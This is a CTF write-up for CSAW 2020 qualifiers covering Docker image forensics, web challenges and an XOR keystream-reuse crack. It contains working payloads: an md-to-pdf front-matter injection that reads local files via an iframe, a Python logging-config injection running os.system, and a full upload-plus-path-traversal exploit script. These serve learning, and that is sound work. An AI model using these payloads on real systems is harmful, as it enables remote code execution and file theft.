







# CSAW CTF Qualification Round 2020
## Table of Content
- [Reverse Engineering](#Web-application)
    - [DockeRELeakage](#DockeRELeakage)
- [Web application](#Web-application)
    - [World Wild Web](#World-Wild-Web)
    - [My Little Website](#My-Little-Website)
    - [Good Intention](#Good-Intention)
- [Cryptography](#Cryptography)
    - [Gotta Crack Them All](#Gotta-Crack04-Them-All)

## Reverse Engineering
### DockeRELeakage

1. Download the dockeRELeakage.tar.gz
2. Load image: `docker load < dockeRELeakage.tar.gz`
3. Look for image's histry `docker images history <IMAGE>` (use `--no-trunc` to see all command)



4. Found base64 --> crack and found the first half of the falg
5. Use dive to reverse engineering and find all file on the container



6. From the history, I found out that flag.txt likely to have the other half of the flag 
7. All file on the docker present on the /var/lib/docker/overlay2 path
8. Find flag
```bash
cd /var/lib/docker/overlay2

find . -name <Keyword>

cat ./c4c2b1111710c840107313a395b2716bb193f4335d173f87984ed7ed8c2fc1c8/diff/chal/flag.txt
```


## Web application
### World Wild Web

1. We went to the challenge and find the web page as shown in figure below.



2. We clicked the stuff and found the page below.



3. Then I disabled css and went thought all links on each webpages and found the flag.



4. You could use the less brute-force appoach by using command `wget -r -l inf http://web.chal.csaw.io:5010/` or write some python script to run thought all links.

### My Little Website

1. First approach (front matter in markdown)
```
---
launch_options: {headless: true, args: ["--disable-web-security", "--no-sandbox"]}
---
<iframe src="file:///flag.txt" width=400 height=600></iframe>
```

2. https://github.com/simonhaenisch/md-to-pdf/issues/99


### Good Intention

1. We can upload file into the server
2. /log_config is vulnerable to path tarversal



3. So, we create the mallicious log file

```python
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/docs/piriya.flag')
level=DEBUG
formatter=simpleFormatter
args=('application/static/docs/piriya.log',)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

4. Then upload log file via APIs (you will get the 500 internal server error but that ok)

```python
from fileinput import filename
import requests 
import json

api_url = "http://web.chal.csaw.io:5012"
username = "piriya"
password = "testing"

image_file = "exploit.conf"
label = "testfile"


def register(username, password):

    url = api_url + "/api/register"

    payload = json.dumps({
       "username": username,
       "password": password 
    })

    headers = {
        'Content-Type': 'application/json'
    }

    response = requests.request("POST", url, headers=headers, data=payload)

    return response

def login(username, password):

    url = api_url + "/api/login"

    payload = json.dumps({
        "username": username,
        "password": password
    })

    headers = {
        'Content-Type': 'application/json'
    }

    connection = requests.Session()

    response = connection.request("POST", url, headers=headers, data=payload)

    return response,connection

def upload(connection, filename, label):

    url = api_url + "/api/upload"

    with open(filename, "rb") as f:
        data = f.read()

    files = {'file': data}
    #Edit the label appropriately
    values = {'label': label}

    response = connection.request("POST", url, files=files, data=values)

    return response

def get_gallery(connection):
    url = api_url + "/api/gallery"
    response = connection.request("GET", url)
    return response

def set_config(connection,filename):
    url = api_url + "/api/log_config"
    payload = json.dumps({
        "filename": filename
    })

    headers = {
        'Content-Type': 'application/json'
    }

    response = connection.request("POST", url, headers=headers, data=payload)
    return response

def runcmd(connection,cmd):
    url = api_url + "/api/run_command"
    payload = json.dumps({
        "command": cmd
    })

    headers = {
        'Content-Type': 'application/json'
    }

    response = connection.request("POST", url, headers=headers, data=payload)
    return response

def main():
    
    response = register(username, password)

    print(response.text)

    response, connection = login(username, password)

    print(response.text)

    response = upload(connection, image_file, label)

    print(response.text)

    response = get_gallery(connection)
    print(response.text)

    filename = input("Enter filename: ")
    filename = "../images/" + filename
    print(filename)
    
    response = set_config(connection,filename)

    print(response.text)

    print(response.cookies)

'''
    response = runcmd(connection,"whoami")

    print(response.text)

'''


if __name__ == "__main__":
    main()
```

5. Go to http://web.chal.csaw.io:5012/static/docs/piriya.flag to get flag

## Cryptography
### Gotta Crack Them All

1. It is the steam encryption with leaked plain text
2. So, I use leaked plain text xor all the encrypt texts to find key
3. Then, use keys to decrypt all the encrypttext --> if the text is readable it means I found a valid key.

    $plaintext \oplus key = encrypttext$

    $plaintext \oplus encrypttext = key$

    $plaintexts(leaked) \oplus encrypttexts = keys$

    $keys \oplus encrypttexts = plaintexts$

```python
with open('key.txt','rb') as f:
	key = f.read()

def encrypt(plain):
	return b''.join((ord(x) ^ y).to_bytes(1,'big') for (x,y) in zip(plain,key))

def decrypt(cipher):
	return b''.join((ord(x) ^ y).to_bytes(1,'big') for (x,y) in zip(cipher,key))

def encrypt2(plain,key):
	return b''.join((x ^ y).to_bytes(1,'big') for (x,y) in zip(plain,key))
	
with open('./leaked_password.txt','rb') as f:
	passwd = f.read()
key = passwd
key2=[]
with open("encrypted_passwords.txt", 'rb') as f:
	enc_passes = f.readlines()
	for enc_pass in enc_passes:
		plain = encrypt2(enc_pass,key)
		key2.append(plain)

for i in key2:
	print("Key = ", i)
	
	for enc_pass in enc_passes:
		plain = encrypt2(enc_pass,i)
		
		print(plain)
	input()
```


